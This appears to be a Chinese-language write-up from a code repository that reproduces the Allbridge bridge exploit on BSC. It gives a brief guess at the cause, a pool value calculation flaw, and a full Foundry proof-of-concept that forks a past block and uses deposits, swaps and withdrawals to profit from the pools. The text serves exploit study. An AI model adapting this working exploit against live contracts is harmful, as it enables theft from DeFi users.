


# Allbridge攻击复现

## 1.参考资料：

交易详情

https://phalcon.xyz/tx/bsc/0x7ff1364c3b3b296b411965339ed956da5d17058f3164425ce800d64f1aef8210

## 2.漏洞成因

尚不清楚是因为项目方本身的代币价值计算公式有问题，还是价格获取方式有问题，根据调整BUSD和USDT池子大小，通过反复测试之后，应该是项目方本身的计算公式有问题，获利不会因为两个池子价差越大而越多，到后边变动越来越小。

计算公式：



## 3.漏洞POC

当前forge版本可以复现，将下列代码复制到Counter.t.sol里边即可

forge test -vvvv --fork-url <your own RPC> --fork-block-number 26982057

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Counter.sol";

interface Pool{
    function deposit(uint256 amount) external;
    function withdraw(uint256 amountLp) external;
}

interface Bridge {
    function swap(uint256 amount, bytes32 token, bytes32 receiveToken, address recipient) external;
}

interface BUSD{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}
interface USDT{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}


contract ContractTest is Test{
    function setUp() public {

    }

// 4830262616
    
    function testattack() public returns(uint256 test){

        BUSD busd = BUSD(address(0xe9e7CEA3DedcA5984780Bafc599bD69ADd087D56));
        USDT usdt = USDT(address(0x55d398326f99059fF775485246999027B3197955));
        Bridge bridge = Bridge(address(0x7E6c2522fEE4E74A0182B9C6159048361BC3260A));

        busd.approve(address(0x179aaD597399B9ae078acFE2B746C09117799ca0), type(uint256).max);
        usdt.approve(address(0xB19Cd6AB3890f18B662904fd7a40C003703d2554), type(uint256).max);
        usdt.approve(address(0x179aaD597399B9ae078acFE2B746C09117799ca0), type(uint256).max);
        busd.approve(address(0xB19Cd6AB3890f18B662904fd7a40C003703d2554), type(uint256).max);
        // ba2 = busd.balanceOf(address(0x7EFaEf62fDdCCa950418312c6C91Aef321375A00));

        vm.prank(address(0x7EFaEf62fDdCCa950418312c6C91Aef321375A00));
        busd.transfer(address(this), 9000000000000000000000000);
        vm.prank(address(0x7EFaEf62fDdCCa950418312c6C91Aef321375A00));
        usdt.transfer(address(this), 9000000000000000000000000);

        bytes32 addrBytes1 = bytes32(0x00000000000000000000000055d398326f99059fF775485246999027B3197955);
        bytes32 addrBytes2 = bytes32(0x000000000000000000000000e9e7CEA3DedcA5984780Bafc599bD69ADd087D56);


        Pool busd_pool = Pool(address(0x179aaD597399B9ae078acFE2B746C09117799ca0));
        Pool usdt_pool = Pool(address(0xB19Cd6AB3890f18B662904fd7a40C003703d2554));
        busd_pool.deposit(5000000000000000000000000);
        usdt_pool.deposit(2000000000000000000000000);

        //2.swap

        bridge.swap(490784250421615988577113,addrBytes1,addrBytes2,address(this));
        busd_pool.withdraw(4830262616);
        uint256 bnum = usdt.balanceOf(address(this));
        console2.log(usdt.balanceOf(address(this)));
        bridge.swap(40000000000000000000000,addrBytes2,addrBytes1,address(this));
        bridge.swap(40000000000000000000000,addrBytes2,addrBytes1,address(this));
        bridge.swap(40000000000000000000000,addrBytes2,addrBytes1,address(this));
        uint256 anum = usdt.balanceOf(address(this));
        console2.log(usdt.balanceOf(address(this)));

        test = (anum - bnum) / 1 ether - 40000;
    }
}
```

## 4.复现结果

POC仅供漏洞验证，并未跟攻击者获利完全一致



